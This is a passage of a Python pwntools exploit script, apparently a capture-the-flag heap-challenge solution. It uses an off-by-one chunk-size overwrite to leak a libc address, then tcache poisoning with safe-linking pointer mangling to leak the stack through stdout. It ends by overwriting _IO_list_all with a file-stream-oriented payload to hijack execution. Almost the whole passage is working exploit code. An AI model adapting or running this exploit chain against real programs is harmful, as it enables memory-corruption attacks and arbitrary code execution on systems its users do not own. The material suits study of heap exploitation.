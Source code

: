 ```python
            alloc(2, 0x28, p64(0x21)*2)
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\xf1")
        free(1)
        view(1)

        libc_leak = u64(rl().strip().ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 96)
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    with log.progress("Clean unsorted bins"), context.silent:
        for i in range(5):
            alloc(2, 0x28, p64(0x21)*2)
    with log.progress("Leak stack"), context.silent:
        alloc(0, 0x28, p64(0x21)*3 + b"\x31")
        alloc(1, 0x28, p64(0x21)*3 + b"\x31")
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\x41")
        alloc(0, 0x28, p64(0x21)*3 + b"\x31")

        alloc(0, 0x28, p64(0x21)*3 + b"\x31")
        alloc(2, 0x28, p64(0x21)*3 + b"\x31")
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\x41")
        alloc(0, 0x28, p64(0x21)*3 + b"\x31")

        free(1)
        free(2)
        free(1)
        for i in range(7):
            alloc(0, 0x38, b"A")
        alloc(0, 0x38, p64(mangle(heap, libc.sym["_IO_2_1_stdout_"])))
        alloc(0, 0x38, b"A")
        alloc(0, 0x38, b"B")
        alloc(0, 0x38, stdout_leak(libc.sym["environ"]))
        stack = u64(r(8))
    leak("Stack leak", hex(stack))
    with log.progress("Overwrite _IO_list_all"), context.silent:
        alloc(0, 0x28, p64(0x31)*3 + b"\x31")
        alloc(1, 0x28, p64(0x31)*3 + b"\x31")
        free(0)
        alloc(0, 0x28, b"A"*0x28 + b"\x21")
        alloc(0, 0x28, p64(0x31)*3 + b"\x31")

        alloc(0, 0x28, p64(0x21)*3 + b"\x21")
        alloc(2, 0x28, p64(0x21)*3 + b"\x21")
        free(0)
        alloc(0, 0x28, p64(0x21)*5 + b"\x21")
        alloc(0, 0x28, p64(0x21)*3 + b"\x21")
        free(1)
        free(2)
        free(1)
        for i in range(7):
            alloc(0, 0x18, b"A")
        alloc(0, 0x18, p64(mangle(heap, libc.sym["_IO_list_all"])))
        alloc(0, 0x18, b"A")
        alloc(0, 0x18, b"B")
        fp = heap + 0x6a0
        payload = fsrop_context(fp)
        alloc(0, 0x38, payload[:0x38] + b"\xff")
        alloc(0, 0x38, payload[0x40:0x40+0x38] + b"\xff")
        alloc(0, 0x38, payload[0x80:0x80+0x38] + b"\x00")
        alloc(0, 0x38, payload[0xc0:])
```